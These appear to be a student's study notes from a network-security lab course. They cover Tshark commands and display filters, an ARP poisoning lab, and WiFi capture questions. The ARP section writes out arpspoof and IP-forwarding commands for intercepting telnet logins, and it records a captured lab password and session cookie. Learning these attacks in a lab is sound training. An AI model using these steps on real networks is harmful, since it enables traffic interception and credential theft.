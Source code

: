 - network-based attack
	- not related to operating system but attacks on network 
		- arp 
		- dhcp
		- smb 
		- ftp
		- telnet 
		- ssh 
- man in the middle attack  
![[Pasted image 20230718125000.png]]


###  Tshark 
**Tshark** is a command line tool created by the Wireshark team and shares the same powerful parsing engine as Wireshark. It is capable of doing most things we've come to love Wireshark for, but with the "from command line" advantage. This makes it ideal for batch analysis, offline processing and routine automation of traffic analysis tasks. In this course, we will explore many of these capabilities. It is assumed you have a basic working knowledge of Wireshark and traffic analysis.

check what version we have 
- command: tshark -v 
we want to see the manual but only one page at the time 
- command: tshark -man | more 
get a list of interfaces we can interact with 
- command: tshark -D 
select the eth interface 
- command: tshark -i eth0 
when you have a pcap 
- tshark -r pcapfilename 
run statistics on pcap 
- command: tshark -r pcap -z io,phs -q 


-- Lab --- 
**Set A:**
1. Which version of Tshark is installed in the lab? 
   
   student@attackdefense:~$ tshark -v
TShark (Wireshark) 2.6.1 (Git v2.6.1 packaged as 2.6.1-0ubuntu2~16.04.0)
   
2. Find all Tshark supported network interfaces for monitoring
student@attackdefense:~$ tshark -D
1. eth0
2. any
3. lo (Loopback)
4. ip_vti0
5. nflog
6. nfqueu
3. What is the Tshark command to sniff on eth0? Why did this command fail?
student@attackdefense:~$ tshark -i eth0
Capturing on 'eth0'
tshark: The capture session could not be initiated on interface 'eth0' (You don't have permission to capture on that device).
Please check to make sure you have sufficient permissions, and that you have the proper interface or pipe specified.0 packets captured

**Set B:**

1. Tshark supports PCAP files. The lab environment has a sample file: HTTP_traffic.pcap. How can you read this file in Tshark and display the packet list on the console?
   
   tshark -r pcapfilename 
   
2. How can you find the total number of packets in HTTP_traffic.pcap?
   
   student@attackdefense:~$ tshark -r  HTTP_traffic.pcap | wc -l 
  30418  
  
1. Tshark command to read the first 100 packets only from HTTP_traffic.pcap?
   
tshark -r HTTP_traffic.pcap -c 100


4. Print the list of protocols in HTTP_traffic.pcap 
![[Pasted image 20230718141506.png]]


### Filtering Basics 

apply a filter that will look at http
- command: tshark -r HTTP_traffic.pcap -Y 'http'
- command:  tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET'
- command: tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET
   -Tfields -e frame.time -e ip.src -e ttp.request.full_uri' | more 
- command:  tshark -r HTTP_traffic.pcap -Y 'http contains password'
- command:  tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET && http.host\==www\.2nos.com' -Tfield -e ip.dst 
lets look at traffic between two IP addresses 
- command: tshark -r HTTP_traffic.pcap -Y 'ip.src\==ip && ip.dst\==52.XX'  
traffic between ip 
- command: tshark -r HTTP_traffic.pcap -Y 'ip contains amazon.in && ip.src\==192.x.x.x.' -Tfields -e ip.src -e http.cookie 
see which browser we are seeing 
- command:  tshark -r HTTP_traffic.pcap -Y 'ip.src\==192.x.x.x && http' -Tfields -e http.user_agent 

-- lab --- 

Set A:
1. Command to show only the HTTP traffic from a PCAP file? 
   
   tshark -r HTTP_traffic.pcap -Y 'http' 
2. Command to show only the IP packets sent from IP address 192.168.252.128 to IP address 52.32.74.91?
   
   tshark -r HTTP_traffic.pcap -Y 'ip.src\==192.168.252.128 && ip.adr\==52.32.74.91'
3. Command to print only packets containing GET requests?
   tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET'
   
4. Command to print only packets only source IP and URL for all GET request packets?
   
tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET
   -Tfields -e frame.time -e ip.src -e http.request.full_uri'

Set B:
1. How many HTTP packets contain the "password" string? 4 
    tshark -r HTTP_traffic.pcap -Y 'http contains password' 
   
   
2. . What is the destination IP address for GET requests sent for New York Times (www.nytimes.com)?
   tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET && http.host\==www.nytimes.com' -Tfields -e ip.dst 

1. What is the session ID being used by 192.168.252.128 for Amazon India store (amazon.in)?
   
 tshark -r HTTP_traffic.pcap -Y 'ip contains amazon.in && ip.src\==192.168.252.128' -Tfields -e ip.src -e http.cookie 

2082758401l 

1. What type of OS the machine on IP address 192.168.252.128 is using (i.e. Windows/Linux/MacOS/Solaris/Unix/BSD)? Bonus: Can you also guess the distribution/flavor?

192.168.252.128 Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0 


### Arp Poisoning 


Run an nmap on the target subnet 
open wireshark on eth1
ping one target ip
- command: echo 1 > /proc/sys/net/ipv4/ip_forward 
lets start with arpspoof - "ip1" with the IP address of the target you want to intercept or spoof, and "ip2" with the IP address of the host you want to redirect the traffic to. 
- command: arpspoof -i eth1 -t ip1 -r ip2 

telnet is not encrypted so look for those credentials and use it to login 

-- Lab -- 

Try to intercept network traffic and steal `telnet` credentials by performing an ARP poisoning attack. 

ine login: admin
.
admin

Password: MyS3cr3tP455
.

Nmap scan report for 10.100.13.36
Host is up (0.00049s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
23/tcp open  telnet
MAC Address: 08:00:27:4A:45:F3 (Oracle VirtualBox virtual NIC)


### WiFi Traffic Analysis 

- Protocol 802.11 = wifi 
- ![[Pasted image 20230719121414.png]]
- 

-- Lab --- 

A WiFi traffic capture is provided in the lab. Analyze the traffic using Wireshark and answer the following questions:

1. What is the name of the Open (No Security) SSID present in the packet dump?  
   SSID (Service Set Identifier) is a unique name that identifies a wireless network. When a device, such as a laptop or smartphone, wants to connect to a Wi-Fi network, it searches for available SSIDs in its vicinity 
   
   SSID: SecurityTube_Open
   
2. The SSID 'Home_Network' is operating on which channel?
   
   
3. Which security mechanism is configured for SSID 'LazyArtists'? Your options are: OPEN, WPA-PSK, WPA2-PSK.
   
   
   
4. Is WiFi Protected Setup (WPS) enabled on SSID 'Amazon Wood'?  State Yes or No.
   
   
5. What is the total count of packets which were either transmitted or received by the device with MAC e8:de:27:16:87:18?
   
   
   
6. What is the MAC address of the station which exchanged data packets with SSID 'SecurityTube_Open'?
   
   
   
7. From the last question, we know that a station was connected to SSID 'SecurityTube_Open'. Provide TSF timestamp of the association response sent from the access point to this station
